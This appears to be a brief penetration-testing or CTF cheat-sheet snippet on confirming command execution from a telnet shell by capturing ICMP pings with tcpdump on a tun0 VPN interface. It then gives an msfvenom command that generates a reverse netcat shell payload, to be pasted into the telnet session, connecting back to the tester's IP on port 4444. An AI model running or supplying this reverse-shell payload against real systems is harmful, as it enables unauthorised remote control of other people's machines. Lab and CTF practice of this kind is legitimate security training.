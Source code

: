 ### Use tcpdump to check if you can run commands from the telnet shell

1. Run tcpdum to listen for ICMP packets: `sudo tcpdump ip proto \\icmp -i tun0`
2. Run ping from the telnet session to your local machine

A useful payload to copy paste to telnet session: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`